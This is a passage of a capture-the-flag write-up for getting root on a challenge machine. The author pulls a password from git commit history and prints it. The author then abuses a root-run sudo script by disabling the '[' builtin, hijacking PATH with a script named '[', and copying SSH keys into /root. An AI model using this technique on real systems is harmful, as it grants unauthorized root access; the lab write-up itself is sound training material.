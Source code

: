 ![image](https://i.imgur.com/dO9u4Mx.png)

## 2. What is the root flag?

Another enumeration phase begins so we first look at the app and see what we can learn from it. Going into the app directory, we find that it contains a git repo:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292663243-236794e5-e776-4f1c-b699-d64e3d0a2b60.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T092257Z&X-Amz-Expires=300&X-Amz-Signature=c4e7f969c9a1b06df1b2e95fa44d1ef003a9069aa8d531e3da043efef16261d4&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

Enumerating the git commits, we find a password in one of them which works for our user:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292663251-753e0caf-728d-42f5-8562-f27b0ee64f8e.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T092313Z&X-Amz-Expires=300&X-Amz-Signature=70adf71ebdde3f5c1e957e6cfe8d115d9f597b77b163d17d44ed74ec3b63b836&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

`F453TgvhALjZ`

Checking the sudo privileges now that we have the password, we find that the user can run a specific bash script as root:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292663281-b5c68fb3-827a-4c69-a4dd-4df60adae238.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T092324Z&X-Amz-Expires=300&X-Amz-Signature=d56d580f5eb98ca6c3b6f0ad7cc7bead6c1cd57e5c616b309a27d3c4dd37a850&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

This is the content of said script:  

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/mcskidy/

WEBSITE_URL="http://127.0.0.1:8000"

response=$(/usr/bin/curl -s -o /dev/null -w "%{http_code}" $WEBSITE_URL)

# Check the HTTP response code
if [ "$response" == "200" ]; then
  /usr/bin/echo "Website is running: $WEBSITE_URL"
else
  /usr/bin/echo "Website is not running: $WEBSITE_URL"
fi
```

I stared at this for a long while trying to find the vulnerability. I tried PATH highjacking, symlinks, Environment variable highjacks etc. This one started to bug me but I was saved by a nudge in the right [direction](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md). I started reading this and when I saw the builtins section, specifically that you can disable "[" as builtin and enable it as script, I immediately knew that that was my solution.

```bash
enable -n [
echo -e '#!/bin/bash\ncp /home/mcskidy/.ssh/authorized_keys /root/.ssh/authorized_keys;echo done' > [
chmod +x [
export PATH=/home/mcskidy/:$PATH
```

My python foothold script already writes an SSH key into McSkidy's folder, so I just copy that into the root folder. After disabling the "[" as builtin, we create a file with our privilege escalation vector and make it executable and make sure our PATH includes the location where we have it. Then we run the /opt/check.sh as root and SSH in.  
